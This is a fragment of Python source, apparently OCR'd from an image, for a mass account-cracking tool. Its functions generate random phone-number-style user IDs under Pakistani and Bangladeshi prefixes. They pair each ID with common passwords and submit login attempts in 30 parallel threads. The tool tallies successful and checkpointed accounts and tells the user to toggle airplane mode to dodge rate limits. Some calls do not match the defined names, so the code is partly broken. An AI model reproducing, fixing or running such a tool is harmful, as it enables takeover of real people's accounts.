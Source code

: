 def pak():
                user=[]
                clear()
                print('\033[1;37m Example : 0306,0315,0335,0345');linex()
                code = input('\033[1;37m Put Code : ');linex()
                try:
                        limit = int(input('\033[1;37m Example : 2000, 3000, 5000, 10000\n\033[1;37m PUT LIMIT : '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as MUGHAL:     
                        clear()
                        
                        tl = str(len(user))
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mTotal id : \033[1;97m'+tl)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mSelect code :\033[1;97m '+code)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mBRS Crack Has Been Running \n \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mUse Airplane after 3 minutes')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','malik123','kingkhan','baloch123','pak123','khan123']
                                BRS.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' TOTAL OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python uami.py')
def bd():
                user=[]
                clear()
                print('\033[1;37m Example : 017,016,018')
                code = input('\033[1;37m PUT CODE: ')
                try:
                        limit = int(input('\033[1;37m Example : 2000, 3000, 5000, 10000\n\033[1;37m PUT LIMIT : '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as MUGHAL:     
                        clear()
                        
                        tl = str(len(user))
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mTotal id : \033[1;97m'+tl)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mSelect code :\033[1;97m '+code)
                        print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mBRS Crack Has Been Running \n \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mUse Airplane after 2 minutes')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'i love you','iloveyou','free fire','freefire','57273200']
                                BRS.py.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' TOTAL OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python BRS.py')
